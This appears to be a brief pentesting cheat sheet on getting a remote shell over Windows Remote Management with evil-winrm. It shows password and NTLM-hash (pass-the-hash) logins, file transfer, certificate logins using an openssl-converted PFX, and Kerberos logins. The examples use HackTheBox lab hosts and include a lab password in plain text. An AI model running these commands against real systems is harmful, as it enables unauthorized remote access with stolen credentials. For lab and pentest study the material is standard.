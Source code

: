 ###### Requirement
>For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

###### Get-shell
>This shell is the ultimate WinRM shell for hacking/pentesting.

>WinRM (Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.


```
evil-winrm -i ip -u username -p password
evil-winrm -i ip -u username -H ntlm_hash

evil-winrm basic commands:
upload local_filename || upload local_filename destination_filename
download remote_filename || download remote_filename destination_filename
```
```
Use 5986 to connect:
evil-winrm -i timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```
###### Evil-Winrm to connect via pem
```
evil-winrm -i 10.10.11.152 -S -k keyStore.pem -c keyStore.pem

Convert a PKCS#12 file (.pfx .p12) containing a private key and certificates to PEM:
openssl pkcs12 -in legacyy_dev_auth.pfx -out keyStore.pem -nodes 
```
### Login via kerberos
```
evil-winrm -i frizzdc.frizz.htb -r frizz.htb -k cache_file
```
